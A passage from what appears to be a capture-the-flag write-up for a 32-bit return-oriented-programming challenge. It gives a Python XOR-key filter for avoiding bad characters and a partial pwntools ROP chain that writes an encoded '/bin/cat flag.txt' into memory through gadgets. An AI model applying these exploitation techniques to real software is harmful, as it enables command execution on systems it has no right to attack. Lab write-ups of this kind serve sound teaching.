## Realising (and fixing) another problem
While making a more efficient version of my exploit script, I forgot that there is a chance that xor'd characters also may become a bad character. So I made a script that filters out the xor's with bad characters.
```python
def valid_xor(string,xor_value):
    output = ''
    badchars = 'bic/ fns'
    for char in string:
        output += chr(ord(char) ^ xor_value)
    for char in badchars:
        if char in output:
            return False
    return True

target_string = '/bin/cat flag.txt'

for xor in xrange(10):
    if valid_xor(target_string,xor):
        print('Valid: {}'.format(hex(xor)))
```
After running I got this output:
```
$ python filter_xor.py
Valid: 0x6
```
So 0x6 should be fine to use!

## Finishing the ropchain
After some tinkering I came up with this script.
```python
from pwn import *

bss_addr = 0x0804a040
xor = p32(0x08048890) # xor BYTE PTR [ebx],cl; ret
mov = p32(0x08048893) # mov DWORD PTR [edi],esi; ret
pop_ei = p32(0x08048899) # pop esi; pop edi; ret
pop_ex = p32(0x08048896) # pop ebx; pop ecx; ret
system = p32(0x80484e0)

def write(string,offset):
    xorred_string = ''
    for char in string:
        xorred_string += chr(ord(char) ^ 0x6)
    chain = pop_ei
    chain += xorred_string
    chain += p32(bss_addr+offset)
    chain += mov
    return chain

# write '/bin/cat flag.txt' to bss_addr
payload = 'A'*44 # padding
payload += write('/bin',0)
payload += write('/cat',4)
payload += write(' fla',8)
payload += write('g.tx',12)
payload += write('t\x00\x00\x00',16)

# xor every character with 0x6
for i in xrange(18):
    payload += pop_ex
    payload += p32(bss_addr+i)
    payload += p32(0x6)
```